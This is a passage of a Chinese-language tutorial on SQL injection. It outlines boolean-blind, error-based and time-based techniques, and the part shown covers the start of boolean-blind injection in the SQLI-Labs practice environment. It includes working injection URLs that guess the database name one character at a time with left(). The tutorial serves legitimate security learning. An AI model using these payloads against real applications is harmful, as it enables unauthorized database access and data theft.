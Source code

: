 ```yaml
---
title: SQL注入全解
date: 2019-03-06 05:03:38
tags:
 - 注入
---
```

Tip: 这篇将详细介绍盲注/报错/时间延迟注入等三种注入,并在测试环境SQLI-Labs中实现注入;这里说下,[SQLI-Labs](https://github.com/Audi-1/sqli-labs)相比大家都知道其内部实验主要关注SQL注入,且分类众多,对于想学习手工注入、SQL注入可以本地搭建环境进行测试.

|一、布尔盲注   |二、报错注入   |三、时间盲注   |
|---|---|---|
|left()函数   |count()&floor(rand())&group by   |sleep()函数   |
|ascii()和substr函数   |EXP()函数   |if(condition,true,false)
   |
|ord()函数&mid()函数   |bigint溢出   |   |
|regexp正则   |xpath报错注入:extractvalue()、updataxml()	   |   |

# 一、布尔盲注

## 1.1.left()

```BASH
格式:left(str,1)>5
```
解析:str是字符串,可能是版本号,可能是数据库名等;数字1:指的是从字符串中获取第一个字符,如果想获取第二个字符,直接修改次数字就行,但,注意:后面比较的数字要写上我们探测的第一个字符信息.

```BASH
示例:
Database()='security'实际值;
Left(database(),1)>'s' 没有爆错并测出第一个字符是's'
Left(database(),2)>'sh' 需要加第一个字符,否则会爆错的;注意啦啦啦;
```
### 1.1.1.爆库
1.1.1.1.猜测第一个字符

```BASH
URL:猜测第一个字符是否大于'i'字符
http://sqli-labs.me:8888/Less-6/?id=1" and left(database(),1)>'i'--+
```
![bool1](/images/sqlall/bool1.jpg)
```BASH
URL:确定第一个字符是s
http://sqli-labs.me:8888/Less-6/?id=1" and left(database(),1)='s'--+
```
1.1.1.2.猜解第二个字符
